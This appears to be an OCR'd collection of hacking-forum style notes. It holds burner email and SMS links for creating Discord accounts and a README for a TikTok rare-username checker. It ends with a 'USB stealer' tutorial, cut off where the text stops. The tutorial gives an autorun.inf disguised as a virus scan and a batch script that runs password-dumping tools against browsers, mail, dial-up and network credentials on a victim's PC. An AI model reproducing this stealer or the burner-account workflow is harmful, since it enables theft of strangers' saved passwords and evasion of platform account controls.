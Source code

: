 --------------------------------------------------------
Burner email

https://temp-mail.org/en
https://mytempsms.com/receive-sms-online/netherlands-phone-number.html


Copy the email and use it to create a discord acc, recommended that you wait for a bit before using this method again

TikTok-Rare-Username-Checker
A simple asynchronous tool that checks if a TikTok username is taken or not
About
It is a proxyless tool that checks the availablity of TikTok usernames in blazing fast speed. It checks if the http request status code is not 200. If it is, it will automatically assume that the TikTok username is not taken.

This tool can be inaccurate at times because it does not use the TikTok api. It only checks if the username's TikTok url is invalid.

This tool is used for educational purposes only.

How to use: (Python must be installed)
1. If you dont have python installed, download python 3.7.6 and make sure you click on the 'ADD TO PATH' option during the installation.

2. Type pip install aiohttp in cmd

3. Add the usernames you want to check in usernames.txt. Do not put a lot of usernames because you can get rate limited (because this tool is proxyless). It is 
recommended to check around 500 usernames then wait 24 hours before you can check again.

4. Make sure you are in the same directory as the folder you downloaded it in. Type py main.py in cmd to run

5. Once it is done running, available usernames will be saved in hits.txt.

ss:https://media.discordapp.net/attachments/887080087067967579/895684789208756325/68747470733a2f2f692e6962622e636f2f4e7876353336642f53637265656e73686f742d3135362e706e67.png 

--------------------------------------------------------
Tiktok rare names

https://link-center.net/472989/tiktok-rare 

### #usb-stealer

HOW TO MAKE A USB STEALER 

Basically with a functional stealer you can plug it into any persons PC and steal all their saved passwords, etc. 
No need for Hosting,Software,Crypting
TUTORIAL:

open notepad/wordpad
type:
[autorun]
open=launch.bat
ACTION= Perform a Virus Scan
save this as AUTORUN.inf
open a new notepad/wordpad document
type:
start mspass.exe /stext mspass.txt
start mailpv.exe /stext mailpv.txt
start iepv.exe /stext iepv.txt
start pspv.exe /stext pspv.txt
start PasswordFox.exe /stext passwordfox.txt
start OperaPassView.exe /stext OperaPassView.txt
start ChromePass.exe /stext ChromePass.txt
start Dialupass.exe /stext Dialupass.txt
start netpass.exe /stext netpass.txt